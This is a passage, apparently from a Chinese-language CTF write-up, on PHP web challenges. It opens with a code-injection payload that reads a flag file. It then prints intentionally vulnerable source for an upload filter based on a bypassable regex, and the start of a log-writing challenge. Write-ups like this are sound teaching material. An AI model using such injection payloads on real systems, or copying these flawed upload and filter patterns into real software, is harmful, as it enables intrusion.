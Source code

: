 Array (
    [0] => .
    [1] => ..
    [2] => flag_h0w2execute_arb1trary_c0de
    [3] => html
)

```php
&arg=}print_r(file_get_contents('../flag_h0w2execute_arb1trary_c0de'));//
```



## 2.easy - pcrewaf

> PHP 正则特性

```php
<?php
function is_php($data){
    return preg_match('/<\?.*[(`;?>].*/is', $data);
}

if(empty($_FILES)) {
    die(show_source(__FILE__));
}

$user_dir = 'data/' . md5($_SERVER['REMOTE_ADDR']);
$data = file_get_contents($_FILES['file']['tmp_name']);
if (is_php($data)) {
    echo "bad request";
} else {
    @mkdir($user_dir, 0755);
    $path = $user_dir . '/' . random_int(0, 10) . '.php';
    move_uploaded_file($_FILES['file']['tmp_name'], $path);

    header("Location: $path", true, 303);
} 1
```



## 3.easy - phpmagic

> PHP 写文件技巧

```php
<?php
if(isset($_GET['read-source'])) {
    exit(show_source(__FILE__));
}

define('DATA_DIR', dirname(__FILE__) . '/data/' . md5($_SERVER['REMOTE_ADDR']));

if(!is_dir(DATA_DIR)) {
    mkdir(DATA_DIR, 0755, true);
}

chdir(DATA_DIR);  // 改变当前目录为 DATA_DIR

$domain = isset($_POST['domain']) ? $_POST['domain'] : '';
$log_name = isset($_POST['log']) ? $_POST['log'] : date('-Y-m-d');
?>

<?php 
if(!empty($_POST) && $domain):
    $command = sprintf("dig -t A -q %s", escapeshellarg($domain));
```